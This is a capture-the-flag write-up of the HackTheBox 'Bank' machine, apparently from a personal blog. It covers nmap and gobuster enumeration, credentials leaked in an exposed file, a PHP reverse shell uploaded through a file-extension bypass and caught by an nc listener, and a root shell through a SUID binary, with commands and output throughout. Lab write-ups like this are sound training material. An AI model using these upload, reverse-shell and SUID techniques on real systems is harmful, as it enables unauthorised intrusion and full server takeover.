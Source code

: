 ```yaml
---
layout: post
title: HackTheBox - Bank
---
```


Bank is a relatively simple machine, however proper web enumeration is key to finding the necessary data for entry. There also exists an unintended entry method, which many users find before the correct data is located. 

![Bank](https://github.com/user-attachments/assets/4c3b0d67-8891-4012-9064-98f1bb5781d7)

## Reconnaissance and Enumeration
---

I started with a typical nmap scan -sC for default scripts, -sV to show version, -O for OS detection and -T5 to speed up scan
```
┌──(vq4s㉿kali)-[~/Downloads]
└─$ nmap -sC -sV -O -T5 bank.htb
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-02 23:58 CEST
Nmap scan report for bank.htb (10.10.10.29)
Host is up (0.032s latency).
rDNS record for 10.10.10.29: Bank.htb
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 08:ee:d0:30:d5:45:e4:59:db:4d:54:a8:dc:5c:ef:15 (DSA)
|   2048 b8:e0:15:48:2d:0d:f0:f1:73:33:b7:81:64:08:4a:91 (RSA)
|   256 a0:4c:94:d1:7b:6e:a8:fd:07:fe:11:eb:88:d5:16:65 (ECDSA)
|_  256 2d:79:44:30:c8:bb:5e:8f:07:cf:5b:72:ef:a1:6d:67 (ED25519)
53/tcp open  domain  ISC BIND 9.9.5-3ubuntu0.14 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.9.5-3ubuntu0.14-Ubuntu
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
| http-title: HTB Bank - Login
|_Requested resource was login.php
Aggressive OS guesses: Linux 3.10 - 4.11 (95%), Linux 3.13 (95%), Linux 3.13 or 4.2 (95%), Linux 4.2 (95%), Linux 4.4 (95%), Linux 3.16 (94%), Linux 3.16 - 4.6 (94%), Linux 3.12 (93%), Linux 3.18 (93%), Linux 3.2 - 4.9 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.58 seconds
```
Standard login page, I didn't find anything usefull in source view
![banklogin](https://github.com/user-attachments/assets/08161350-1137-48e7-a3da-9e9a68114b1e)

Gobuster to enumerate directories on web server.
```
┌──(vq4s㉿kali)-[~/Downloads]
└─$ gobuster dir -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://bank.htb          
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://bank.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 305] [--> http://bank.htb/uploads/]
/assets               (Status: 301) [Size: 304] [--> http://bank.htb/assets/]
/inc                  (Status: 301) [Size: 301] [--> http://bank.htb/inc/]
/server-status        (Status: 403) [Size: 288]
/balance-transfer     (Status: 301) [Size: 314] [--> http://bank.htb/balance-transfer/]
Progress: 220559 / 220560 (100.00%)
===============================================================
Finished
===============================================================
```
![upload](https://github.com/user-attachments/assets/bef213d8-58d2-4203-990f-e126957d8868)
![assets](https://github.com/user-attachments/assets/08de7ef1-d7e7-480f-9ae3-81602cb9ee8f)
![inc](https://github.com/user-attachments/assets/9ca8bfb6-a245-4d91-b343-570e91a2fd35)

These directories contain standard PHP, JavaScript, and theme files. The `/balance-transfer/` path was more interesting:

![banktransfers](https://github.com/user-attachments/assets/3c27cb87-154f-4453-8071-964063033ebd)
In /balance-transfer, I found a large list of files. Most looked similar, but one file was noticeably smaller in size.
![banktrasnferacc](https://github.com/user-attachments/assets/721616e2-a33f-4628-8fd5-29e025aa0003)

![ourgoodacc](https://github.com/user-attachments/assets/b0788e5d-1fa9-4b46-be54-139ec55e0a87)
It contained a failed encryption error that exposed plaintext credentials. I used those to successfully log in.

![logintobank](https://github.com/user-attachments/assets/11950c0d-0f7a-4509-97c0-07c410104bda)
Logged in as Christos Christopoulos, I didn’t find anything interesting in the source view — so I decided to check the support page.

## Exploitation
---

![support](https://github.com/user-attachments/assets/1351104c-6ff3-4844-b650-81a594ec5aa5)
On the support page, users could attach image files to tickets. While inspecting the source code, I found an HTML comment mentioning support for .htb file extensions — a valuable hint that files with this extension might be accepted, even if they weren’t images.

![supportdevtools](https://github.com/user-attachments/assets/705ab752-7629-4f91-85dc-b95259ad5061)
I created a PHP reverse shell (PentestMonkey) and uploaded it with a .htb extension.
![succuploadphp](https://github.com/user-attachments/assets/321e02bb-d8c6-4df0-94e4-48db400e37ac)
I set up a listener and triggered the shell using the "Click here" button:
![workingshell](https://github.com/user-attachments/assets/bdcf51c5-d3bf-40ef-b603-5ce4256d720d)

```
┌──(vq4s㉿kali)-[~/Downloads]
└─$ nc -lvnp 4242
listening on [any] 4242 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.29] 41136
Linux bank 4.4.0-79-generic #100~14.04.1-Ubuntu SMP Fri May 19 18:37:52 UTC 2017 i686 athlon i686 GNU/Linux
 01:40:30 up 43 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
Logged as `www-data`, I spawned proper TTY using `bash -i`, then navigate to home directory to retrieve user flag:
```
$ bash -i
bash: cannot set terminal process group (1072): Inappropriate ioctl for device
bash: no job control in this shell
www-data@bank:/$ ls -la /home
ls -la /home
total 12
drwxr-xr-x  3 root  root  4096 Jan 11  2021 .
drwxr-xr-x 22 root  root  4096 Jan 11  2021 ..
drwxr-xr-x  3 chris chris 4096 Jan 11  2021 chris
www-data@bank:/$ wc /home/chris/user.txt
wc /home/chris/user.txt
 1  1 33 /home/chris/user.txt
```

## Privilege Escalation
---

I first checked for sudo permissions
```
www-data@bank:/$ sudo -l
sudo -l
sudo: no tty present and no askpass program specified
```
No permissions, so i checked for SUID binaries, You can search that by following commands:
```
find / -user root -perm -4000 -print 2>/dev/null
find / -type f -perm -04000 -ls 2>/dev/null
find / -type f -perm -u=s 2>/dev/null | xargs ls -l
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} \;
```

```
www-data@bank:/$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/var/htb/bin/emergency
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/at
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/traceroute6.iputils
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/mtr
/usr/sbin/uuidd
/usr/sbin/pppd
/bin/ping
/bin/ping6
/bin/su
/bin/fusermount
/bin/mount
/bin/umount
www-data@bank:/$ cd /var/htb/bin
cd /var/htb/bin
www-data@bank:/var/htb/bin$ ls -la 
ls -la 
total 120
drwxr-xr-x 2 root root   4096 Jan 11  2021 .
drwxr-xr-x 3 root root   4096 Jan 11  2021 ..
-rwsr-xr-x 1 root root 112204 Jun 14  2017 emergency
www-data@bank:/var/htb/bin$ ./emergency
./emergency
id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=0(root),33(www-data)                                                                                                                   
```
The `emergency` binary was owned by root and had the SUID bit set. Executing it successfully elevated privileges to root, allowing me to access the final flag.
```
wc /root/root.txt
 1  1 33 /root/root.txt
```
